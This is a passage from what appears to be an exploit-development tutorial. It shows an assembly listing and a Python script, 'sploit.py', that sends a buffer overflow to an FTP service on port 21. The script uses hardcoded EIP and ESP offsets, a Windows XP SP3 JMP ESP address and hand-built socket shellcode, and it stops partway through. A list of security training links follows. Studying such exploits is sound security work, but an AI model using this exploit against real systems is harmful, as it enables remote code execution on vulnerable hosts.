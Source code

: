 {% codeblock ASM listing %}
MOV BL, 0x5C          ; Point EBX at `listen`
PUSH 0x7F             ; Specify a big backlog
PUSH EDI              ; Pass in the socket
CALL EBX              ; Invoke listen
{% endcodeblock %}

Let's give that a crack in our script:

{% codeblock sploit.py version 6 lang:python %}
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux
